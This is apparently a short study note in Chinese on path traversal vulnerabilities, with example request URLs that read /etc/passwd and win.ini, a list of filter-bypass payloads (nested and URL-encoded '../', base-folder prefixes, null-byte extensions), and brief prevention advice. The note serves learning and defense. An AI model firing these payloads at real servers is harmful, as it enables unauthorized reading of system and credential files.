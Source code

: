 ## Path traversal (../)
- 能夠讀取運行應用程式的伺服器上的任意檔案
- 能夠寫入伺服器上的任意文件
- 修改應用程式資料或行為 <br>
**Example :**
    - <"img src="/loadImage?filename=218.png""> --> call /var/www/images/218.png
    - https://insecure-website.com/loadImage?filename=../../../etc/passwd
    - ../和都是..\有效的目錄遍歷序列
    -  Windows 伺服器 : https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini

## Bypass : 
- 絕對路徑 : filename=/etc/passwd
- Ｎested traversal : "....//" or "....\/"
    - (....//....//....//etc/passwd)
- URL 編碼 :%2e%2e%2f, %252e%252e%252f , ..%c0%af or ..%ef%bc%8f
    - Burp Intruder: Fuzzing - path traversal
- 基底資料夾 : filename=/var/www/images/../../../etc/passwd
- 副檔名結尾 : filename=../../../etc/passwd%00.png

## prevent a path traversal attack
- 白名單 : 處理使用者輸入之前，請先驗證其有效性
- 僅包含字母數字字元
- 使用平台檔案系統 API 來規範化該路徑
